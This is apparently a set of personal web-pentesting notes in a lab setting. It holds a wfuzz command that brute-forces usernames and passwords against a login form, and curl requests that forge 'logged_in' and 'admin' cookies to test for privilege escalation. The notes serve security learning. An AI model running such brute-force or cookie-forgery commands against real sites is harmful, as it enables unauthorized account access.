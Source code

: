 </div></div>

## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



# Username and password brute force
```sh
wfuzz -c --hc 200 -w namesdic.txt -z file,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -X POST -d "username=FUZZ&password=FUZ2Z" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.24.58/customers/login
```

---

</div></div>

## [[Pentesting Web/Logic Flaw\|Logic Flaw]]
## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



Examining and editing the cookies set by the web server during your online session can have multiple outcomes
- such as unauthenticated access,
- access to another user's account
- elevated privileges

**Plain Text**
The contents of some cookies can be in plain text, and it is obvious what they do. Take, for example, if these were the cookie set after a successful login:
```
**Set-Cookie: logged_in=true; Max-Age=3600; Path=/**  
****Set-Cookie: admin=false; Max-Age=3600; Path=/****
```

We see one cookie (logged_in), which appears to control whether the user is currently logged in or not, and another (admin), which controls whether the visitor has admin privileges. Using this logic, if we were to change the contents of the cookies and make a request we'll be able to change our privileges.
First, we'll start just by requesting the target page:  

Curl Request 1
```sh
curl http://MACHINE_IP/cookie-test
```

We can see we are returned a message of: **Not Logged In**
Now we'll send another request with the logged_in cookie set to true and the admin cookie set to false:  

Curl Request 2
```sh
curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
```
